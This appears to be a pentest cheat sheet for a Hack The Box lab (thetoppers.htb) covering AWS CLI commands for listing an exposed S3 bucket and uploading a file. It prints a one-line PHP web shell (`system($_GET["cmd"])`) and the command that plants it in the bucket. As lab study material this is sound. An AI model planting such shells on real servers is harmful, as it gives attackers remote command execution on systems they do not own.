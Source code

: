 - [aws bucket list](#awsbl)
- [aws reverse shell](#awsrs)

# aws bucket list <a name="awsbl"></a>

The `aws bucket list` command is used to list the contents of the buckets found within a subdomain hosted on AWS. It is useful for finding files such as `index.php`, etc.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `ls`: Lists the directory.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
````

# aws reverse shell <a name="awsrs"></a>

The `aws reverse shell` command is used to copy files from your local machine to one of the AWS buckets. After copying the file, you can access it and enter commands.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `cp`: Copies the specified file, in this case, `shell.php`, to the bucket.
- `shell.php`: The file to be copied, containing `<?php system($_GET["cmd"]); ?>` code.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````